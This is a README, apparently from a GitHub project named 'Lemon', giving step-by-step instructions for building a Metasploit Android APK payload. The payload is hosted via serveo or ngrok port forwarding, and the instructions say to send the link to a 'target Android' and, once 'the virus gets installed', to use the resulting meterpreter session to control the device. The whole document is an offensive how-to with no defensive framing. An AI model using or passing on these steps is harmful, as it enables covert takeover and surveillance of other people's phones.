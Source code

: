 **Requirements :-**

1.Metasploit-Framework

2.git

**Installation :-**

1.Install git by typing "pkg install git"

2.Download Lemon by typing "git clone https://github.com/Lemon-Hacking/Lemon

3.Install it by executing "cd $HOME/Lemon && sh Install" without quotes.

**How to use :-**

1.Run php by typing "sh php"

2.Run ssh by typing "sh ssh" and copy the link you get.   [NEW SESSION]

3.Forward TCP connections by typing "sh payload", type a name for your payload followed by ".apk" at the end, then choose a port of your own and choose a forwarding service, specify if you already have Ngrok or not, serveo requires no installation. It will take a little time to create and upload the payload with the specified port and name.

4.Type "sh Handler" and read the info carefully. Now wait for the Handler to start, then type "set LHOST xxxx" and "set LPORT xxxx". Put the correct port and host according to the instructions, and finally type "run"   [NEW SESSION]

5.Now, put your payload's name after the link that you got after running "sh ssh" [For Example : lente.serveo.net/Name.apk] and send the link to the target Android, once the virus gets installed in the target device, you will see a meterpreter session opening, wait for a few seconds.
  Type "?" and press enter. Now you can mess with the Android device using the commnands listed.
